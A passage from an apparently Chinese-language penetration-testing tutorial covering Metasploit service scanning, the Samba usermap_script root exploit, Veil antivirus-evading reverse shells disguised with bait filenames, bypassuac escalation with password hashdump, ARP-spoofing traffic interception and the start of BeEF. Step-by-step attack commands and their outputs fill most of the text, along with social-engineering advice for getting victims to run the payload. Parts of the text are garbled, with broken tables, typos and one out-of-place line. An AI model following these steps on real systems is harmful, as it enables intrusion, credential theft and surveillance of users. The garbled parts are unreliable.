

我们看到目标确实在运行 SSH 服务，并且我们看到了软件版本：

> `SSH-2.0-OpenSSH_4.7p1 Debian-8ubuntu`

我们现在可以使用此信息来搜索漏洞利用程序。

注意设置远程主机的命令是复数 `RHOSTS`，我们可以在这里输入整个系统范围，使我们能够快速轻松地扫描整个网络以寻找 `ssh` 服务器。

现在我们已经有了 SSH 的版本号，可以尝试为它寻找漏洞利用程序，或者我们可以使用另一个辅助模块 `auxiliary/scanner/ssh/ssh_login`，使用字典文件尝试暴力破解密码。我们将这个练习留给你们。

### 使用额外的扫描器

某些扫描器返回的信息与其他扫描器不同。

#### MySQL

例如，如果我们使用 MySQL 扫描，我们会得到这个：

```
msf> use auxiliary/scanner/mysql/mysql_version
msf auxiliary(mysql_version) > show options
Module options (auxiliary/scanner/mysql/mysql_version):
Name            Current Setting Required Description
RHOSTS                  yes             The target address range or
CIDR                                
PORT            3306                The target port
THREADS         1               yes             The number of concurrent threads

msf auxiliary(mysql_version) > set RHOSTS 192.168.198.145
nRHOSTS => 192.168.198.145
msf auxiliary(mysql_version) > exploit
[*] 192.168.198.145:3306 is running MySQL 5.0.51a-ubuntu5 (protocol 10)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module completed
msf auxiliary(mysql_version) >
```

扫描显示正在运行 MySQL 5.0.51a。

但其他的可以发现更多的信息。例如，让我们看看 Telnet。

#### TELNET

Telnet 版本扫描器可以以不同的方式工作。如果我们使用用户名和密码，它将尝试登录服务。如果不使用，它将只获取横幅。

注意这与我们之前涵盖的不同；在 Metasploitable 机器上不返回版本号，而是执行横幅获取。

有时你可以通过它发现一些有趣的信息。

让我们设置扫描器：

```
msf auxiliary/scanner/telnet/telnet_version) > show options
Module (auxiliary/scanner/telnet/telnet_version):
Name                Current Setting  Required Description
PASSWORD            yes              The password for the specified username
HOSTS               yes              The target address range or CIDR
PORT                23               yes       The target port
THREADS             yes              The number of concurrent threads
TIMEOUT             30               yes       Timeout for the Telnet probe
USERNAME            yes              The username to authenticate as
msf auxiliary(telnet version) > set RHOST 192.168.198.145
```

现在，当我们输入 `exploit` 时看到这个：


看起来只是一堆关于软件正在运行的文本，没有提示。但如果我们观察仔细一点，我们可以看到其他的：`Login to get started`，看起来他们在 Telnet 页面上暴露了登录凭据。试试是否有效：

```
root@metasploitable~$ telnet 192.168.198.145
Connected to 192.168.198.145.
Password:
Last login: Wed Oct 23 24:48 EDT on tty1
Linux metasploitable 2.6.24-generic #1 SMP Apr 10 58:00 UTCThe programs included with the Ubuntu system are free; the exact distribution for each program are described in the individual files in /usr/share/doc/.
Ubuntu comes with ABSUTELY NO WARRANTY, the extent permitted by applicable law.
To access official documentation, please visit: http://help.ubuntu.com/
metasploitable~$
```

进去了！


如果我们运行 `id` 命令，可以看到该用户（主用户）是以下组的成员：

```
$@metasploitable~$ id
uid=1000(msfadmin) gid=1000(msfadmin) groups=4(adm),28(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),107(fuse),111(lp),112(admin),119(bash)
metasploitable~$
```

我们可能可以使用这些信息来进一步利用服务。公司在服务页面中包含登录凭据听起来有些不可信，但信与否，这在现实生活中发生的比你想象的要多。

## 扫描地址范围

有趣的是，通过这些扫描器我们可以设置不同的选项。例如，让我们运行 SMB 扫描器：



好了，我们将 `RHOSTS` 设置为 `192.168.198.145`，它扫描并返回了运行上面的 Samba 版本。

但如果我们想扫描整个网络中运行 Samba 的系统呢？这就是 `RHOSTS` 命令的妙处所在。与其只扫描单个主机，你可以扫描 `192.168.198.0` 网络上的所有 256 个客户端。我们使用完全相同的命令，但这样修改 `RHOSTS` 命令：

```
msf use auxiliary/scanner/smb/smb_version
msf auxiliary(smb_version) > set HOSTS 192.168.198.0/24
msf auxiliary(smb_version) > set THREADS 25
msf auxiliary(smb_version) > run
[*] Starting scan...
[*] 192.168.198.145 is running Windows 7 7601 Service Pack (Build 1) (name:GAME PC) (domain:WORKGROUP)
[*] 192.168.198.145 is running Unix Samba 3.0.20-Debian (language: Unknown)

[*] Scan finished.
[*] Scanned 156 of 256 hosts (64% complete)
[*] Scanned 169 of 256 hosts (66% complete)
[*] Scanned 169 of 256 hosts (66% complete)
[*] Scanned 219 of 256 hosts (85% complete)
[*] Scanned 240 of 256 hosts (93% complete)
[*] Scanned 242 of 256 hosts (94% complete)
[*] Scanned 252 of 256 hosts (98% complete)
[*] Scanned 254 of 256 hosts (99% complete)
[*] Scanned 256 of 256 hosts (100% complete)
[*] Auxiliary module completed.
msf auxiliary(smb_version) >
```

注意现在我们扫描了网络上的 256 个主机，并在 `192.168.198.145` Metasploitable 机器上运行了 Samba。

## 利用 Samba 服务

既然我们在这里，让我们看看如何利用 Samba `SMB` 服务。这将让我们有更多运行漏洞利用程序的练习，并学会发现和利用漏洞。

我们从扫描器中知道运行的 SMB 服务版本是 Unix Samba 3.0.20。让我们快速搜索 Google 看看能找到什么：



第一个返回是一个“用户名映射脚本”问题。

让我们尝试那个，看看得到什么。

继续搜索 `samba/usernamemap`：

```bash
msf search sambamap
Matching Modules
===================
| Name                              | Disclosure Date          | Rank       |
|-----------------------------------|--------------------------|------------|
| exploit/multi/samba/usermap_script | 2007-05-14 00:00:00 UTC | excellent |
```

从上面的图片中看到 `Rank`（排名）为“excellent”（优秀）。

让我们对它使用“`info`”命令看看显示了什么：

```bash
msf> info exploit/multi/samba/usermap_script
```

```
Basic options:
| Name | Current Setting | Required | Description |
|------|-----------------|-------------|-------------|
| RHOST | --- | --- | 目标地址 |
| RPORT | 139 | yes | 目标端口 |

Payload information:
Space: 1024

Description:
该模块利用了 Samba 版本 3.0.20 到 3.0.25rc 在使用非默认的“username map script”（用户名映射脚本）配置选项时的命令执行漏洞。通过指定包含元字符的用户名，攻击者可以执行任意命令。利用此漏洞不需要身份验证，因为该选项在身份验证之前就会用于映射用户名！
```

看起来该漏洞只需要设置 `RHOST`。

我们不需要设置 `payload`，因为它会自动使用 Linux 命令行 shell。因此，我们需要做的就是使用该漏洞，将 `RHOST` 值设置为我们的目标 Metasploitable 系统并运行该漏洞：

```bash
msf > exploit/multi/samba/usermap_script set RHOST 192.168.198.145
RHOST => 192.168.198.145
msf > exploit(usermap_script) exploit
[*] Started reverse double handler
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo OEOVTlhuMlLsKyLts
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "0xOEOVTlhuMlLsKyLts\r\n"
[*] Matching...
[*] A is input... 
[+] Command shell 1 opened (192.168.198.146:4444)
8 12:12:37 -0400

whoami
root
id
uid=0(root) gid=0(root)
```

如你在上面的图片所示，漏洞利用成功了，我们是超级用户“root”，通过“`id`”命令进行了验证，该命令返回了“uid=0(root) gid=0(root)”。

## 结论

在本节中，我们学习了如何使用一些内置扫描器来快速扫描特定服务。一些专业的渗透测试人员不再依赖 `nmap` 作为寻找服务的主要工具。许多人在转向 `nmap` 之前，会通过寻找常见的特定漏洞来“快速击杀”。还有人完全不使用 `nmap`。

扫描容易出现漏洞的特定服务是进入网络的快捷方法。我们查看了几个核心服务扫描器并学习了它们的工作原理。

令人震惊的是，我们能够从 `telnet` 服务中获取明文密码。

一旦获得了一组凭据，我们就可以 Metasploit 中的辅助扫描器（`auxiliary scanners`）进一步探索网络。只需将这些凭据输入其中一个扫描器，并扫描整个网络，查看它们可以在哪些其他系统上运行。

我们只接触了扫描器的一小部分，还有许多我们没有涵盖。建议你花些时间查看它们，看看它们能做什么。

# 第 9 章 – 使用 Veil 绕过 Windows 毒

## 资源

- https://www.veil-evasion.com/powershell-payloads/

## 简介

我们快速查看了攻击 Linux 主机；现在来看看攻击 Windows 主机。

很多人认为如果运行了杀毒软件和防火墙，就是安全的。事实远非如此。“Veil”是一个可以绕过当前杀毒软件的远程 shell payload 生成器。

渗透测试的一部分是绕过讨厌的杀毒软件。许多杀毒软件通过模式或签名进行工作，如果文件看起来像恶意软件，它就会捕获。如果可以更改恶意软件的签名，或者在某种情况下，许多杀毒软件就会允许其运行并让攻击者连接到系统。

Veil 是安全专家 Chris Truncer 创建的新 payload，它通过标准的 Metasploit payload 创建多个可能绕过杀毒软件的 payload。

## 安装 Veil

Veil 最近被添加到 Kali 中，如果在终端输入“veil”没有启动，可能是它尚未安装。

- 1. 安装只需输入“`apt-get update & apt-get veil`”：

```bash
root@kali:/usr/share# apt-get update apt-get veil
```

- 2. 然后运行只需输入“`veil`”：

```bash
root@kali:/usr/share# veil
```

这将你带到主菜单：

```
Main Menu
Veil 2.8.5
payload loaded

Available commands:
use a specific payload
update to the latest version
list
info on a payload
exit
```

## 使用 Veil

第一件事是使用“`list`”命令列出可用 payload。payload 经过评分，由于我们将讨论一些 PowerShell 攻击（社会工程学），我们将使用 PowerShell payload。在本教程中，我们将使用“use”命令。

- 1. 输入“use”。这将选择显示以下屏幕：

```
Payload: powershell/VirtualAlloc loaded
Available commands:
set a specific option
info about the payload
help
generate
```

- 2. 我们将使用默认值，只需输入“generate”。然后你可以选择 Metasploit 的标准 `msvenom` 或使用自己的。我们将选择默认的 `msvenom`。

- 3. 输入“1”并回车：

```
[?] Use msfvenom or custom shellcode?
1 - msfvenom (default)
2 - Custom
Please enter your choice: 1
```

选择 shell 类型；我们将使用默认的 `reverse_TCP`。这意味着他们的电脑将连接回我们。

- 4. 直接按“enter”接受默认 payload：

```
[*] for windows/meterpreter/reverse_tcp
[*] list available payloads
Please enter metasploit payload:
```

- 5. Next Veil 将询问你使用的主机 IP 地址。输入你的 Kali 机器的 IP 地址并回车。

```
LHOST
Enter value for 'LHOST', local IP: 192.168.198.137
```

- 6. 然后输入你使用的本地端口。我选择使用端口 `4000`：

```
LPORT
Enter value for 'LPORT': 4000
```

- 7. 然后你将被要求输入任何你想使用的 MSVenom 选项，我们不会使用任何，所以只需按“enter”绕过它们。就是这样！Veil 将根据我们选择的选项生成 shellcode。

- 8. 现在我们需要为我们创建的文件命名。我选择了“CutePuppy”。

好吧，“Cutepy”听起来有点奇怪，但记住，你想让目标打开你发送的文件，所以需要一点社会工程学。如果你喜欢小狗，那么这个文件名就是完美的。你也可以将其命名为“2013 Business Report”或“New Job”。任何你认为最好的。

Veil 现在拥有了所需的所有内容并创建了陷阱文件。

```
powershell
Language: python
Payload: VirtualAlloc
Shellcode: windows/meterpreter/reverse_tcp
Options: LHOST=192.168.198.137 LPORT=4000
Source File: /usr/share/veil/output/source/CutePupp.bat

[*] Your payload files have been generated, don't get caught!
!] 不要向在线扫描器提交样本；
[>] 按任意键返回主菜单：
```

我们的文件将存储在“`/usr/share/veil/output/source/`”目录下。只需获取创建的 `.bat` 文件并将其发送到目标。当它运行时，它将尝试连接到我们的机器。我们现在需要启动一个监听器（handler）来接受连接。

## 获取远程 Shell

要创建远程监听器，我们将使用 Metasploit。

- 1. 从菜单或终端 (`msfconsole`) Metasploit Framework

- 2. 现在使用以下屏幕设置 `multi/handler`：

```bash
msf > use multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.198.137
msf lhost => 192.168.198.137
msf exploit(handler) > set lport 4000
lport => 4000
msf exploit(handler) > exploit
```

确保输入你机器的 IP 地址和在 Veil 中设置的端口。它们必须完全匹配。

Metasploit 然后将启动监听器并等待连接：

```
[*] Started reverse handler on 192.168.198.137:4000
[*] Starting the payload handler...
```

在 Windows 7 机器上，如果执行了文件，我们会在 Kali 系统上看到这些：

```
[*] Started reverse handler on 192.168.198.137:4000
[*] Starting the payload handler...
[*] Sending stage (192128 bytes) to 192.168.198.132
[*] Meterpreter session opened (192.168.198.137:4000 -> 192.168.198.132:49209)
meterpreter >
```

一个反向 shell 会话！

如果我们输入 "`shell`"，就会发现我们确实拥有了一个完整的远程 shell：

```
meterpreter > shell
Process 216 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.
C:\Users\Fred\Desktop\>
```

## 结论

这应该证明了你不能仅仅依靠防火墙和反病毒软件来保护自己免受网络威胁。遗憾的是，很多时候你的网络安全取决于用户以及他们允许运行的内容。

指示你的用户永远不要运行从未请求的邮件中获取任何程序或打开的文件。

阻止特定类型的文件进入或离开你的网络也是一个好主意。

最后，使用网络安全监控系统将帮助在最坏情况发生时追踪什么以及哪些内容被破解。

# 第10 章 – Windows 权限提升

## 绕过 UAC

## 引言

Windows 中的 Administrator 用户拥有很多权限，但有些事情即使是管理员也无法完成。Linux 中的“Root”用户是超级“神”级用户，而在 Windows 中，“System”用户是超级账户。

用户账户控制 (`UAC`) 在之前的 Windows 版本中似乎是一个麻烦，许多公司直接将其关闭了。然而，`UAC` 在 Windows 7 中运行得非常好，即使在最低安全设置下，也能防止许多在 Windows XP 中有效的攻击。

即使我们在 Metasploit 中获得了一个远程“管理员”级别的会话，`UAC` 也会阻止我们执行某些操作，例如获取密码哈希。但 Meterpreter 中有一个 UAC 绕过模块，允许我们绕过此限制，如果用户账户是管理员，则可以获取系统权限。

在本节中，我们将学习如何通过绕过 `UAC` 并创建新会话，将权限从管理员级用户提升到系统级。

## UAC 绕过

在本教程中，我们将从一个拥有 Windows 7 系统和一个管理员权限用户的活动 Meterpreter 会话开始。


# UAC 绕过与权限提升

进入`/path/to/xxx`目录，找到`xxx.json`。

## 操作步骤

### 1. 后台会话
首先，我们等待将会话放入后台。然后如果我们运行`sessions`命令，可以看到唯一打开的 Meterpreter 会话是 session 1：

```
meterpreter > background
[*] Backgrounding session 1...
msf exploit(handler) > sessions

Active sessions
Id Type                Connection
1 meterpreter x86/win32 WIN-LOCAL.LOTDOTLU\Fred @WIN-LOCAL.LOTDOTLU 192.168.198.134:443 -> 192.168.198:49644
```

### 2. 使用 bypassuac 漏洞利用
现在我们需要使用 bypassuac 漏洞利用：

```
msf exploit(handler) > use exploit/windows/local/bypassuac
```

### 3. 查看选项
输入`show options`查看我们需要提供哪些选项：

```
msf exploit(bypassuac) > show options
Module options (exploit/windows/bypassuac):
Name                Current Setting Required Description
The quieter you become, the mo
SESSION             yes                  The session to run this module.

Exploit target:
Id   Name
0    Windows
msf exploit(bypassuac) >
```

### 4. 设置会话
我们唯一需要设置的选项是`set session`选项。使用`set`命令将其设置为我们的活动会话（在此情况下为 session 一）：

```
msf exploit(bypassuac) > set session 1
session => 1
```

### 5. 运行绕过模块
最后输入`exploit`运行绕过 UAC 模块：

```
msf exploit(bypassuac) > exploit
[*] Started reverse handler on 192.168.198.132:4444
[*] UAC is Enabled, checking level...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Sending exploit payload, waiting for stage... 
[+] Part of the bypass UAC executable to the filesystem...
[*] Metpreter stage executable 73802 bytes being uploaded.
[*] Uploaded the agent to the filesystem.
[*] Session 2 opened (192.168.198.132:4444 -> 192.168.198.132:49645)
at 2013-09-28 11:26:31 -0400
meterpreter >
```

太好了，你可以看到该用户确实是管理员组的成员，UAC 绕过成功，并且了一个新的会话。现在如果我们再次尝试`getuid`，它仍然显示 Fred。但如果我们运行`getsystem`，它成功了！

```
meterpreter > getuid
Server username: WIN-LOCAL.LOTDOTLU\Fred
meterpreter > getsystem
system (via technique1).
meterpreter >
```

现在如果我们输入`getuid`，它证实了我们确实拥有 System 级，或者从 Windows 的角度来看拥有`权限`。

```
meterpreter > getuid
Server username: AUTHORITY\SYSTEM
meterpreter >
```

现在，如果我们要用`run post/gather/hashdump`命令导出系统密码哈希：

```
meterpreter > run post/gather/hashdump
[*] Calculating the boot key...
[*] user list and keys...
[*] Decrypting user keys...
[*] Dumping password...
Alice:"password"
Bob:"my name"
George:"secured"
```

上述 hashdump 的部分显示了三个普通用户：Alice、Bob 和 George，显示了他们创建的登录密码提示。最后部分显示了系统的实际哈希：

| User | Hash/Status |
| :--- | :--- |
| Administrator | [Dumping password hashes...] |
| Guest | ... |

使用哈希访问网络上的其他系统将在`密码攻击`章节中介绍。

## 结论

在这个短小的章节中，我们学习了如何将具有管理员权限的用户提升到超级账户。我们通过运行允许绕过 Windows 用户账户控制功能的 Meterpreter 实现了这一点。

一旦我们获得了系统级访问权限，就可以做任何想做的事。我们通过从安全数据库中导出密码哈希证明了这一点。

UAC 绕过之所以可行，是因为我们访问的账户是管理员级账户。务必始终给用户提供非管理员级的账户。这一规则带来的安全后果应该被认真考虑。

# 第11 章 - 数据包捕获与中间人攻击

## 引言

另一种对我们可能有利的技术是监控或捕获远程机器上的网络流量。这就像监听器一样。正如监听器记录人在电话上说的一切一样，数据包捕获记录计算机在网络上说的一切。

在本节中，我们将通过两种不同的过程查看数据包。

对于第一种，我们将在本地网络上使用涉及 `arpspoof`、`urlsniffer` 和 `Driftnet` 的中间人攻击。使用这些命令，我们可以查看目标所在的网站以及其正在查看的图像。

其次，我们将介绍通过 Metasploit 会话运行数据包捕获。然后我们使用 `Wireshark` 和 `Xplico` 查看捕获的信息。

在两种情况下，我们都使用 Windows 7 计算机作为目标系统。

### 第一部分：使用 Arpspoof 创建中间人攻击

现在我们需要运行 `arpsof` 命令。为了做到，我们需要如下所示提供网络接口 `-i`、目标系统 `-t` 和路由器地址：

```
root@Kali:~# arpsof -i eth0 -t 192.168.198.132 192.168.198.2
```

（你可能需要不需要运行反转 IP 地址的反向命令来建立反向连接。反转在 VMWare 主机上似乎不起作用，但我使用上述一个命令就捕获了所有流量）

随后 Arpsof 应该开始发送修改后的 MAC 地址。

现在让我们看看可以从目标系统中捕获到什么。

## 使用 Urlsnarf 查看 URL 信息

让我们先寻找目标正在浏览的 URL 地址。

简单输入`urlsnarf -i eth0`：

```
root@kali:-# urlsnarf -i eth0
urlsnarf: listening on eth0 [tcp port 80 or port 8080 or port 3128]
```

当用户浏览网页时，我们将看到所有的 URL 流量：

```
urlsnarf: listening on eth0 [tcp port 80 or
192.168.198.132 - [08/Nov/2013:21:49:06 -0500]
a.net/pub/mozilla.org/firefox/releases/25.0/update/
partial.mar HTTP/1.1 " "" - "Mozilla/5.0 (Wind
0101 Firefox/24.0"
192.168.198.132 - [08/Nov/2013:21:49:43 -0500]
"" - "Mozilla/5.0 (Windows NT 6.1; rv:24.0) Go
192.168.198.132 - [08/Nov/2013:21:49:44 -0500]
"" - "Mozilla/5.0 (Windows NT 6.1; rv:24.
192.168.198.132 - [08/Nov/2013:21:49:44 -0500]
e69.ico HTTP/1.1 " "" - "Mozilla/5.0 (Windows
Firefox/24.0"
```

这让我们能够看到用户在我们的 Kali 系统上访问的所有网站地址！

## 使用 Driftnet 查看捕获的图形

文字很有趣，但你也可以看到访问过的 URL 图像。要这样做，只需使用`Driftnet`。

简单输入带有所需接口 `-i` 的命令`driftnet`，如下所示：

```
root@kali:-# driftnet -i eth0
```

Driftnet 窗口应该会在你的 Kali 网站上打开。将其最大化以便更容易查看。

现在回到目标计算机系统并开始浏览网页。

你应该应该开始在你的 Kali 系统上看到图像。例如，如果目标访问了 Kali Linux 博客页面，网站上的图像应该开始显示。

因此，在目标系统上他们会看到这些图像：



而在你的远程 Kali 机器上你应该看到这个：


页面所有的图像！

## 第二部分

## 在 Metasploit 中进行远程数据捕获

如果我们与目标系统处于同一个本地网络，那一切很好，但如果目标系统是远的呢？

如果我们能通过漏洞获取 Meterpreter shell，就可以远程记录目标系统的网络流量。

我们将从通过漏洞获取的活动会话开始。如下所示，我们已连接到会话 1，并拥有一个目标的 Meterpreter shell，在这种情况下目标是一个 Windows 7 系统。

```
msf exploit(handler) > exploit
[*] Started reverse handler on 192.168.1.202:4000
[*] Starting the payload: handler...
[*] Stage 1 payload (77708 bytes) sent to 192.168.1.173
[*] Meterpreter session 1 opened (192.168.1.202:4000 -> 192.168.1.173:49417)
2013-11-05 09:39 -0500
meterpreter >
```

在 Meterpreter 提示符下简单输入`run packetrecorder`即可看到如下所示所示：

```
meterpreter > run packetrecorder
Meterpreter Script for capturing packets in to a PCAP file
on a target host given a interface ID.
OPTIONS:
-h Help menu. 执行所有包捕获的接口 ID。
-i <opt> 指定保存 PCAP 文件的另一个文件夹。
-l <opt> 列出可用于捕获的接口。
-t <opt> 收集数据包之间的秒间隔，默认为 30 秒。
meterpreter >
```

我们做的第一件事是运行带有`-li`选项的`packetrecorder`，列出远程系统的接口。

### 当出现问题时

正如你将学到的，攻击性计算机安全测试并不总是按照预期工作。有时你会被安全设备阻止，有时漏洞由于某些原因无法运行。

在例是，当尝试在一个 Windows 7 系统上运行 `packetrecorder -li` 时，我收到了错误：

```
meterpreter > run packetrecorder -li
[- ] Access denied (UAC enabled?)
meterpreter >
```

`Access denied (UAC enabled)?`

由于某些原因，在 Metasploit 中运行 UAC 绕过不起作用。我必须去 Windows 7 系统手动禁用 UAC 才能让它正常工作。

正如之前提到的，与 Windows 之前的版本（那里 UAC 似乎真的不起作用，许多人禁用了它）不同，它确实有助于保护 Windows 7，并且应该一直开启。

即使它被设置为最低级别，也比完全关闭要好！

运行命令，我们将看到远程目标（在此情况下）有 5 个网络接口：

```
meterpreter > run packetrecorder -li
- Win Minip (Network Monitor) (type:3 mtu:1514:uisable:true dhcp:false
- Qualcomm Atheros AR9285 802.11b/g/n WiFi Adapter (type:0 mtu:1514:uisable:true dhcp:false
- Realtek PCIe Family Controller: (type:0 mtu:1514:uisable:true dhcp:false
- TAP-Win32 Adapter V9 (type:0 mtu:1514:uisable:true dhcp:false)
- TAP-Win32 Adapter V9 (type:0 mtu:1514:uisable:true dhcp:false)
```

# 数据抓取 PCAP 捕获文件/实时采集



在 Case（用例）选项下，点击`New Session`（新会话）：



给会话命名，然后点击`Create`（创建）：



现在点击会话名称。

显示主会话桌面

在`Pcap set`（Pcap 设置）菜单部分下，浏览并上传你的 pcap 文件：

文件将在几秒到几分钟后（取决于你的 Pcap 文件大小）上传到 Xplico，你将看到如下结果：

| 帖子 | 数量 | 邮件 |
| --- | --- | --- |
| 获取 | 25 | 已接收 0 |
| 视频 | 471 | 内容 0 |
| 2 | 视频 | 未读 0/0 |
| 图像 | 247 | |
| Facebook 聊天/Patalk | IRC/Patalk ExpMsn | Dns - Arp - Icmpkv |
| --- | --- | --- |
| 用户 | 服务器 0 | DNS 响应 225 |
| 聊天 | 0/0 | 聊天 0/0 | ARP/ICMPv6 37/4 |
| 馈 (RSS & Atom) | 打印文件 | Telnet/Syslog |
| --- | --- | --- |
| 数量 0 | 连接 0/0 | |
| | Pdf 0 | |

现在，如果我们点击 Web 菜单下的 sites（网站），我们将看到目标访问过的网站列表：

| 日期 | URL |
|---|---|
| 2013-11-05 10:22:2 | support.dlink.com/emulators/dir615_revA110/index.htm |
| 2013-11-05 10:22:2 | support.dlink.com/ErrorPage.htm |
| 2013-11-05 10:22:2 | support.dlink.com/emulators/dir615_revA/ |
| 2013-11-05 10:22:2 | support.dlink.com/favicon.ico |
| 2013-11-05 10:22:2 | support.dlink.com/Productinfo.aspx?m=favicon.ico |
| 2013-11-05 10:22:13 | www.google.com/search?q=s&s=joq6s&source=web&cd=s |
| 2013-11-05 10:22:24 | www.google.com/ |
| 2013-11-05 10:22:25 | www.dell.com/us/business/p/powervault-tape-backup-products |

目标在 Dell 网站上搜索有关 Powervault 带备份单元的信息。他们访问了 Google，然后访问了 Dlink 支持网站，寻找关于 Dir-615 路由器的支持信息。

即使没有通过 Xplico 恢复网络信息、账户信息或密码，你也可以使用 Web 标签收集可能用于社会工程学类型攻击的信息。

例如，我注意到浏览过的网站中有几个是 NHL 网站。我可以在数据流中搜索特定的术语，在此例中为 NHL：

| 日期 | URL | 图像 | Flash |
|---|---|---|---|
| 搜索: nhl | 网页 URL | | |
| 2013-11-05 10:18:3 | www.youtube-nocookie.com/gen_2047?attributionpartner=NHL | | |
| 2013-11-05 10:18:21 | pubads.doubleclick.net/page/adview?ai=CiwnWNqX5uQDE4TQ0 | | |


| 2013-11-05 10:17:44 | www.nhl.geo.com/cm/68/MediumRail/6 | | |
| 2013-11-05 10:17:44 | www.nhl.geo.com/cm/68/PageWrapper/7 | | |
| 2013-11-05 10:17:44 | bs.serving-sys.com/BurstingPipe?cnt=otonetagid=250&distType=js | | |
| 2013-11-05 10:17:44 | www.nhl.geo.com/ice/playchhtmid-470257 | | |
| 2013-11-05 10:17:44 | www.nhl.geo.com/cm/68/GameRail/6 | | |
| 2013-11-05 10:17:44 | bs.serving-sys.com/BurstingPipe?cnt=otonetagid=250&distType=js | | |
| 2013-11-05 10:17:41 | www.nhl.com/ice/sthome.htm?nav=sts-leagues | |
| 2013-11-05 10:17:36 | www.nhl.geo.com/cm/68/PageWrapper/7 | | |

或者查看图像：`img/12315f8a5d9e9bad6bf982c86c5537ea_111_0.png` 该用户是一个粉丝，可能从他的浏览习惯中恢复他喜欢的球队，并再次进行社会工程学攻击。

## 结论

在第一部分，我们学习了如何使用 `Wireshark` 和 `Driftnet` 进行中间人攻击并查看目标正在查看网站。在第二部分，我们学习了如何使用 `Meterpreter` 将受攻击系统变为远程数据包嗅探器。本章演示了保护网络的重要性。如果你的 ARP 表未受保护，局域网内的攻击者很容易进行中间人攻击并查看目标流量。如果你的网络不安全，攻击者很容易从你的网络运行远程数据包嗅探器。

# 第12 章 – 使用浏览器利用框架 (BeEF)

浏览器利用框架 (BeEF) - http://beefproject.com/

## 简介

互联网可能是一个不受欢迎的地方，特别是对于 Windows XP 这样的旧系统。在本文中，我们将使用“BeEF”利用 Windows XP。我已经很久没有玩过 BeEF 了，大约三年前，但在 Web 应用和 XSS 课程之后，我觉得是时候用用它了。我很惊喜 BeEF 添加了许多新功能（命令），大大增加了它的功能。BeEF 中的许多攻击对 Windows 7 似乎无效，但 Windows XP 系统仍然对许多浏览器攻击漏洞。让我们看看 BeEF 对 Windows XP 能做什么。

## BeEF 运行实例

首先我们需要启动利用框架。

1. 在 Kali 中，只需打开终端并输入：

```
root@kali:# cd /usr/share
root@kali:~/usr/share# cd beef-xss/
root@kali:~/usr/share/beef-xss# ./beef
```

这会启动 BeEF 服务器并向你显示打开图形界面的地址以及几个你可以挂钩浏览器的示例页面：

```
